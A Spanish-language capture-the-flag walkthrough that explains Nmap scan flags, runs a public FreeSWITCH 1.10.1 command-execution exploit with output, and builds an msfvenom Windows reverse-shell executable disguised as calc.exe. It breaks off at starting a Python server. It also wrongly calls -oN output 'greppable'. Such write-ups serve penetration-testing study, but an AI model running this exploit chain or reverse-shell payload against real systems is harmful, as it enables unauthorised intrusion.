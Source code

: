 `-sV`: Esta opción realiza la detección de versiones de servicios. Nmap intentará determinar qué servicios se están ejecutando en los puertos especificados y mostrará información sobre las versiones de esos servicios.

`-sC`: Activa los scripts de secuencia de comandos (scripts de automatización) de Nmap. Esto permite que Nmap ejecute scripts de detección y enumeración de servicios en los puertos especificados.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Si no se puede contactar con el host a través de Ping, Nmap aún intentará escanear los puertos especificados.

`-vvv`: Esto establece el nivel de verbosidad del escaneo en "muy alto". Esto significa que Nmap proporcionará una salida detallada que incluye información adicional sobre el progreso del escaneo.

`[IP-VICTIM]`: Debes reemplazar \[IP-VICTIM] con la dirección IP del objetivo que deseas escanear. Este es el host en el que se realizará el escaneo.

`-oN servicesScan`: Esta opción le dice a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "servicesScan". Este archivo contendrá información detallada sobre los servicios y versiones detectadas en los puertos especificados.

### Explotación

#### FreeSWITCH 1.10.1 - Command Execution

El puerto `3389` encontramos un servicio el cual tiene una vulnerabilidad de (FreeSWITCH)\[https://www.exploit-db.com/exploits/47799]

Ejecutamos el exploit indicando el comando `whoami`

```java
❯ python3 exploitFreeSwitch.py [IP-VICTIM] 'whoami'
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```

Tenemos respuesta de la maquina victima al comando `whoami` y tenemos el usuario `win-eom4pk0578n\nekrotic`

#### Intrusión

Para obnener una consola de la maquina victima, vamos a crearnos un archivo malicioso, tu la puedes hacer con `nc.exe` el objetivo es el mismo.

La idea es subir este fichero malicioso a la maquina victima y luego con el exploit que nos permite ejecutar comandos, ejecutar el archivo malicioso y enviandonos una consola

* Primero, Creamos nuestro `.exe` malicioso

```java
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > calc.exe
```

* Segundo, iniciamos un servidor en python
